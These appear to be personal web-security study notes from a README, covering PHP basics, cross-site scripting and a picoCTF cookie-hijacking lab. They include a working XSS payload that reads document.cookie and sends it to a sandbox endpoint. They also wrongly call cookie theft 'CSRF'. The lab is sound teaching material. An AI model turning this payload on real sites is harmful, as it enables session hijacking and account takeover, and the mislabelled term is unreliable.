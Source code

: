 # Readme on my Web Requests Folder

Of course this is neccesary, lets look at things in finer detail.

Server side code can come in any language really, most commonly:

* Python
* Java
* PHP
* C
* C Sharp
* And many more…​

## PHP

You can run **test** PHP code on the following W3Schools sandbox:

[https://www.w3schools.com/php/phptryit.asp?filename=tryphp_intro](https://www.w3schools.com/php/phptryit.asp?filename=tryphp_intro)

```php
<b>Hello World!</b>
<script> alert('Hello World from JavaScript!'); </script>
<?php
    echo "Hello World from PHP!";
    echo date("H:i:s");
    echo "<script> alert('Hello World from JavaScript!'); </script>";
?>
```

## XSS (Cross Site Scripting)

The bread and butter of web exploits.

After you Login into a Website, the website needs a way to know that any request coming from your browser is coming from a user that previously logged in, without the need to send the user-password again.

To do that, the website can send to your browser a secret random value after login. That value is generally stored in a cookie or in JavaScript local storage.

Let's pretend it is stored in a cookie, which is simply a variable in your browser that can retain data. If a hacker steals the authentication cookie from you, they can impersonate you. This is a _Cross Site Request Forgery_ or **CSRF**.

Suppose you are a hacker in a social network. When you create your account, instead of using your name, you input JavaScript code. When a friend of yours visit your profile, the WebSite will try to print your name, but your name is actually JavaScript code, so the browser might execute that JavaScript code. 

We can practice and review use of the Firefox Debugger. Firefox would be the preferred browser for obvious reasons.

## Cookie Hijacking Example

We will use these staged sandboxes, courtesy of picoCTF:

[Login Webpage for picoCTF](https://primer.picoctf.org/vuln/web/sign_up.php)

[User Table DB for picoCTF Login](https://primer.picoctf.org/vuln/web/tableusers.php)

An initial test script:

> <script> alert('I just injected Javascript!'); </script>

Finally, JS code callling the **jquery** library:

```javascript
<script src="https://code.jquery.com/jquery-3.4.1.min.js"> </script>
<script>
$.get(
    "https://primer.picoctf.org/vuln/web/insert.php",
    {cookie : document.cookie, hackername : 'YourName'},
    function(data) {
        alert("I just stole the cookie!");
    }
);
</script>
```


---
